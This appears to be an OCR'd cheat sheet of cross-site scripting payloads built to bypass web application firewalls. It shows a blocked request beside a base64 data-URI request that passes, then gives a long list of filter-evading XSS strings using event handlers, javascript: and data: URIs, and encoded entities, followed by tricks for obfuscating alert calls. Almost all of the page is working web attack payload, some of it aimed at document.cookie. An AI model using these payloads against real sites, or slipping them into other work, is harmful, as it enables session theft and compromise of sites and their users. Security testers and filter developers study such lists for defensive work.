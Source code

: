 • This request will not pass through the WAF:

` /?param=`<javascript:alert(document.cookie>`)`

• This request will pass through the WAF and an XSS attack will be
conducted in certain browsers.

` /?param=`<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=>  

## WAF ByPass Strings for XSS.

    <Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
    <Video> <source onerror = "javascript: alert (XSS)">
    <Input value = "XSS" type = text>
    <applet code="javascript:confirm(document.cookie);">
    <isindex x="javascript:" onmouseover="alert(XSS)">
    "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    "><img src="x:x" onerror="alert(XSS)">
    "><iframe src="javascript:alert(XSS)">
    <object data="javascript:alert(XSS)">
    <isindex type=image src=1 onerror=alert(XSS)>
    <img src=x:alert(alt) onerror=eval(src) alt=0>
    <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
    <iframe/src="data:text/html,<svg onload=alert(1)>">
    <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
    <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
    <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
    <form><a href="javascript:\u0061lert(1)">X
    </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
    <style>//*{x:expression(alert(/xss/))}//<style></style> 
    On Mouse Over​
    <img src="/" =_=" title="onerror='prompt(1)'">
    <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
    <script x> alert(1) </script 1=2
    <form><button formaction=javascript&colon;alert(1)>CLICKME
    <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
    <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> 


## Filter Bypass Alert Obfuscation

`(alert)(1)`  
`a=alert,a(1)`  
`[1].find(alert)`  
`top[“al”+”ert”](1)`  
`top[/al/.source+/ert/.source](1)`  
`al\u0065rt(1)`  
`top[‘al\145rt’](1)`  
`top[‘al\x65rt’](1)`  
`top[8680439..toString(30)](1)`
